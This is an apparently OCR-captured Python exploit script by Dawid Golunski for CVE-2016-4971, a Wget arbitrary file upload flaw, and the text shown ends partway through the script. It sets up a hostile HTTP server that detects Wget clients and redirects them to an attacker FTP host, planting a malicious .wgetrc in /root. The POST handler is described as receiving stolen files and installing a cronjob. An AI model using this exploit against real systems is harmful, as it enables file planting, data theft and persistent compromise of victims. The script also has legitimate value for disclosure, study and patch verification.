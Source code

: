     ```python
    #!/usr/bin/env python

    #
    # Wget 1.18 < Arbitrary File Upload Exploit
    # Dawid Golunski
    # dawid( at )legalhackers.com
    #
    # http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
    #
    # CVE-2016-4971
    #

    import SimpleHTTPServer
    import SocketServer
    import socket;

    class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_GET(self):
        # This takes care of sending .wgetrc

        print "We have a volunteer requesting " + self.path + " by GET :)\n"
        if "Wget" not in self.headers.getheader('User-Agent'):
        print "But it's not a Wget :( \n"
            self.send_response(200)
            self.end_headers()
            self.wfile.write("Nothing to see here...")
            return

        print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
        self.send_response(301)
        new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
        print "Sending redirect to %s \n"%(new_path)
        self.send_header('Location', new_path)
        self.end_headers()

    def do_POST(self):
        # In here we will receive extracted file and install a PoC cronjob

        print "We have a volunteer requesting " + self.path + " by POST :)\n"
        if "Wget" not in self.headers.getheader('User-Agent'):
        print "But it's not a Wget :( \n"
            self.send_response(200)
            self.end_headers()
            self.wfile.write("Nothing to see here...")
            return
